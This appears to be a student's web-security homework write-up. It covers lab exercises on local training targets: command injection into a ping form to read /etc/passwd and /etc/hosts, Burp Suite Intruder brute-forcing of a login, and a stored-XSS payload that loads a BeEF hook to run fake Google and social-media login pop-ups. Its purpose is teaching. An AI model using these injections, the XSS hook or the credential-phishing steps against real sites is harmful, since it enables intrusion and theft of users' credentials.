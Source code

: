 # Unit 15 Homework - Web Vulnerabilities and Hardening.

### Web Application 1: *Your Wish is My Command Injection*
-----------------------------------------------------------
If your Vagrant file is active then `Open Oracle VM VirtualBox Manager` and start your Virtual Machine.  

Start the `Terminal` in your Virtual Machine.
  > Run the following command from your `Terminal`.  
  > `cd ./Documents/web-vulns && docker-compose up`  
  > Once the `Docker Containers` are up, Open `Firefox Web Browser`  
  > Navigate to the following webpage: <http://192.168.13.25>   
  > Log in with the following credentials:  
  >   - User name: `admin`  
  >   - Password: `password`  
  > Select the **Command Injection** option or access the webpage directly at this page: <http://192.168.13.25/vulnerabilities/exec/>  

  - Enter 8.8.8.8 in 'Ping a device' section:  
    > ![ping 8.8.8.8](Picture_8888.PNG) 

  - As per the ping `8.8.8.8 && pwd` there are five levels of sub-directories, see below: 
    > ![ping 8.8.8.8 && pwd](Picture_8888&&.PNG)  

  - Based on above, using the dot-dot-slash method `../` need to do it 5 times to access the payloads, that will display the contents of the following directories/files.  
   
    - `/etc/passwd`  
      - From Command line in `Terminal`
        ![ping from command line](hosts_terminal.PNG)  

      - From the Web-Browser  
      `8.8.8.8 && cat ../../../../../etc/passwd`
      ![etc/passwd](Picture_passwd_web.PNG)  
      
    - `/etc/hosts`  
      - From Command line in `Terminal`
        ![ping from command line](hosts_terminal.PNG)  

      - From the Web-Browser  
      `8.8.8.8 && cat ../../../../../etc/hosts`
      ![etc/host](hosts_web.PNG)  
   

### Web Application 2: *A Brute Force to Be Reckoned With*
----------------------------------------------------------
- From the `Terminal` in Vagrant, run the command `sudo burpsuite` to start the `Burp Suite Community Edition`
- Open Firefox browser on Vagrant and choose to the webpage <http://192.168.13.35/ba_insecure_login_1.php>
- Make sure the `FoxyProxy` setting on the web browser is set to `proxy1`.  
  ![FoxyProxy setting](BWAPP_foxyproxy.PNG) 

- This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login.
  - Enter the User name: `bee`  
  - Enter the Password: `bug`  
  ![Login attempt with Burp activated](BWAPP_login_bee.PNG)  
- Following was displayed in the `Burp Suite` in **`Proxy`** tab under the _`Intercept`_ - Highlighting the Login and password credentials.  
  `Request to http://192.168.13.35:80`  
```
POST /ba_insecure_login_1.php HTTP/1.1
Host: 192.168.13.35
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://192.168.13.35
DNT: 1
Connection: close
Referer: http://192.168.13.35/ba_insecure_login_1.php
Cookie: PHPSESSID=gjgme78qruuivmq47t9sktgdv0; security_level=0
Upgrade-Insecure-Requests: 1

login=bee&password=bug&form=submit
```
  ![Burp Suite - Intercept](/Images/Burp-Suite-intercept-test-user.PNG)  

- From the web application tool **Burp Suite**, on the `Intercept` tab Right click anywhere to send the information to `Intruder`  
  - Select the `Intruder` tab, and verify the `Target` tab:  
  ![Intruder-Target](BWAPP_intercept_is_on_code.PNG)  
  
  - Select the `Position` tab and change the `Attack type:` to **`Cluster bomb`**, also clear all payload positions, except for the login and password credentials.  
    ![Cluster bomb](/Images/intruder-target-cluster-bomb.PNG)  

 
  - Select the `Payloads` tab, and enter the `List of Administrators` file provided above into the Payload Options [Simple list] for the set 1.  
    ![List of Administrators](/Images/payload-set-1-list-of-admins.PNG)  
  - Add the passwords from the `Breached list of Passwords` file provided above into the Payload Options [Simple list] for the set 2.  
    ![Breached list of Passwords](/Images/payload-set-2-breached_passwords.PNG)  
  - Click the `Start attack` button to get the results.  

- Results from the analysis that was completed from the `Intruder` show that there was one successful login username/password combination. It was user name of "**`tonystark`**" and the password "**`I am Iron Man`**". Below snapshot displays the `Successful login! You really are Iron Man :)` in the `Response` tab.  
  ![Tonystark - Successful](/Images/intruder-results-tonystark-sucessful.PNG)  

### Web Application 3: *Where's the BeEF?*
------------------------------------------
#### 1. Set up BeEF  
  1. From the `Terminal` in Vagrant run the command `sudo beef` to start the **BeEF**  
  2. When prompted for a password, enter `cybersecurity`.
  3. This will kick off the BeEF application and return many details about the application to your terminal.
  4. To access the BeEF GUI, right-click the first URL `UI_URL: http://127.0.0.1:3000/ui/panel` and select Open Link to open in default browser, or copy the link and open the browser of your choice `(Chrome, or Microsoft Edge)`. Paste it in the address bar and press enter.
  5. When the BeEF webpage opens, login with the following credentials:
    - Username: `beef`
    - Password: `feeb`

#### 2. Prepare the Replicants Website  
  1. From the `Terminal` in Vagrant navigate to `~/Documents/web-vulns` directory.
  2. Run the command `sudo docker-compose up`
  3. Go to the browser and enter the following in the address bar: `http://192.168.13.25/vulnerabilities/xss_s/`
  4. Reset the database and the login with the following credentials:
    - Username: `admin`
    - Password: `password`

#### 3. Start the BeEF hook, and write the payload
  1. From the `Terminal` copy the `BeEF hook: http://127.0.0.1:3000/hook.js`
  2. Write the `Payload: <script src="http://127.0.0.1:3000/hook.js"></script>`

#### 4. Inject this payload  
  - Inject in the message box field with <script src="http://127.0.0.1:3000/hook.js"></script>, it can't display more than 50 characters because there was a limit of `maxlength="50"` character in the source code.
  ![maxlength=50](/text_change_90.PNG)
  
  - Solution: From the Browser press `Ctrl+Shift+I` for Developer Tools. Under the `Element` in Chrome or `Inspector` in Firefox locate the `<div class="body_padded">` and in sub categories, locate the `<textarea name="mtxMessage" cols="50" rows="3" maxlength="50">`. Change the maxlength to any number greater than 50, for example `maxlength="75"`, or just remove this code limit.
  ![maxlength=75](/after_change_to_90.PNG)  
  

#### 5. A few BeEF exploits.
  - First to attempt a social engineering phishing exploit to create a fake Google login pop up, we can use this to capture user credentials.
  - Select `Google Phishing` under `Social Engineering` to access this exploit.
      ![Google phishing](Google_phising.PNG) 
     
  - After selecting this option, the description of the exploit and any dependencies or options are displayed in the panel on the right.
        ![Google phishing](Google_phising_Des.PNG) 
  - To launch the exploit, select Execute in the bottom right corner.
  - After selecting Execute, return back to your browser that was displaying the Butcher Shop website. Note that it has been changed to a Google login page.
  - A victim could easily mistake this for a real login prompt.
  - Lets see what would happen if a victim entered in their credentials. Use the following credentials to login in to the fake Google page. 
    - Username: `hackeruser`  
    - Password: `hackerpass`
    
      ![Email phishing](Email_phising.PNG)  
  - Return to the BeEF control panel. In the center panel, select the first option. Note that now on the right panel, the username and password have been captured by the attacker.  
      ![Hacker email](hacker_email.PNG)  

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

  - Social Engineering >> Pretty Theft
    ![Pretty Theft Facebook](pretty_theft.PNG)  
    ![Pretty Theft Facebook](facebook_timeout.PNG)  
    ![Pretty Theft LinkedIn](youtube_timeout.PNG)  
   

  - Social Engineering >> Fake Notification Bar
    ![Social Engineering >> Fake Notification Bar](fake_notification.PNG)  
    
